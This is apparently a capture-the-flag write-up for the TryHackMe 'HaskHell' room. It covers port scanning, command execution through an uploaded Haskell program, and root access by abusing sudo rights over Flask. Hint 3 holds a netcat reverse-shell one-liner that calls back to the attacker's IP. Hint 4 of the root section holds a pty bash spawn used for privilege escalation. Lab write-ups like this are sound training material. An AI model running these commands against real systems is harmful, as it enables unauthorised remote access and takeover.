

# TryHackMe(THM) - HaskHell  - WriteUp

> Austin Lai | August 6th, 2021

---

<!-- Description -->

[Room = TryHackMe(THM) - HaskHell](https://tryhackme.com/room/haskhell)

Difficulty: **Medium**

You will learn basic knowledge and understanding of Haskell and get to know python - flask.

<!-- /Description -->

<br />

## Table of Contents

<!-- TOC -->

- [TryHackMeTHM - HaskHell  - WriteUp](#tryhackmethm---haskhell----writeup)
    - [Table of Contents](#table-of-contents)
    - [Task 1](#task-1)
        - [User Flag](#user-flag)
        - [root flag](#root-flag)

<!-- /TOC -->

<br />

## Task 1

### User Flag

For start, let get basic enumeration --- starting nmap and gobuster

Nmap result:

```text
Nmap scan report for 10.10.3.221
Host is up, received timestamp-reply ttl 61 (0.35s latency).
Scanned at 2021-08-06 17:46:07 Malay Peninsula Standard Time for 128s
Not shown: 4998 closed ports
Reason: 4998 resets
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
5001/tcp open  http    syn-ack ttl 61 Gunicorn 19.7.1
```

Gobuster result:



Let check out on the site !

Main page:


Homework:


Uploads:


However, if you get gobuster result, you will get the below page:


Next, let get some basic understand of Haskell !

Specifically, research on how Haskell can invoke shell command.

If you haven't figure out, check out the hint given

<details><summary>Hint 1</summary>

[Haskell System Command](https://hackage.haskell.org/package/process-1.0.1.3/docs/System-Cmd.html)

</details>

<br />

Let's put it in practical ! Create a haskell shell script and submit to the link !

<details><summary>Hint 2</summary>

```haskell
import System.Cmd
 
main = system "ls"
```

</details>

<br />

Yeah, turn out with simple haskell script, we can execute command !


Next ! Let get reverse shell, shall we ?

<details><summary>Hint 3</summary>

```haskell
import System.Cmd

main = system "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOU_IP 8888 >/tmp/f"
```

</details>

<br />

And yes ! we get our reverse shell


Next, let's do some basic enum on the machine.

You will notice aside flask, there is another user available.

Check out what you can find.

<details><summary>Hint 4</summary>

```text
Check out the ssh, is there anything you can get?
```

</details>

<br />

Once you get the file, you will be able to login to the system!

Yeah, you get the user flag.

<br />

### root flag

Let's do enum again.

<details><summary>Hint 1</summary>

```text
Have you check sudo?
```

<details><summary>Hint 2</summary>


</details>

</details>

Once you get the possible PrivEsc exploit ...

Let's check out how you can use flask to get PrivEsc ! Google and research !!!

<details><summary>Hint 3</summary>

```text
That's right !

You can create a python shell script as flask using python.

Set the FLASK_APP to the shell you created
```

<details><summary>Hint 4</summary>

shell.py

```python
import pty
pty.spawn('/bin/bash')
```

</details>

<details><summary>Hint 5</summary>


</details>

</details>

And yes, you get the root flag !

<br />

---

> Do let me know any command or step can be improve or you have any question you can contact me via THM message or write down comment below or via FB


